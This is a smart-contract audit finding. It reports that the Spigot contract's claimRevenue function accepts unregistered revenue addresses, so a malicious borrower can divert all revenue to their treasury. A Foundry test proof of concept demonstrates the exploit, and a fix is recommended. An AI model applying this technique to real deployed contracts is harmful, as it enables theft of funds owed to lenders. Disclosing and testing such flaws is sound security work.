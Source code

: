 # Uninitialized Revenue settings can be used to claim revenue that goes 100% to the treasury

Revenue contracts aren't validated in the `claimRevenue` function of the Spigot contract and a malicious borrower can use an uninitialized revenue contract to send all revenue to their treasury.

## Impact

Using an uninitialized revenue contract will lead to using an uninitialized set of settings, in which all values are empty/zero. This is particularly concerning since the `ownerSplit` setting will be 0.

This would allow a malicious borrower to claim revenue using a non-existent contract address, which will lead to using an uninitialized setting with a `ownerSplit` value of 0. This will split 0% to the spigot and 100% to the treasury, effectively sending all tokens to the borrower's treasury.

## PoC

In this test, the Spigot has a revenue payment of 100 tokens and we call the `claimRevenue` function with a random address that will lead to use an uninitialized set of settings and send the total amount of tokens to the treasury.

Note: the context for this test (setup, variables and helper functions) is similar to the one found in the file `Spigot.t.sol`.

```
function test_ClaimRevenue_UninitializedRevenue() public {
    vm.startPrank(owner);
    
    RevenueToken token = new RevenueToken();
    
    MockRevenueContract revenue = new MockRevenueContract(owner, token);
            
    spigot = new Spigot(owner, treasury, operator);
    
    ISpigot.Setting memory settings = ISpigot.Setting(90, claimPushPaymentFunc, transferOwnerFunc);
    require(spigot.addSpigot(address(revenue), settings), "Failed to add spigot");
    
    // Revenue pushes payment to spigot
    token.mint(address(revenue), 100);
    revenue.sendPushPayment(address(spigot));
    
    // Use uninitialized revenue to claim token, uninitialized settings have a value of 0
    spigot.claimRevenue(makeAddr("foo"), address(token), hex"");
    
    // Treasury has 100% of the tokens!
    uint256 treasuryBalance = token.balanceOf(treasury);
    assertEq(treasuryBalance, 100);
}
```

## Recommendation

Validate that the revenue contract in the `claimRevenue` function is a valid revenue contract and that its settings are initialized.
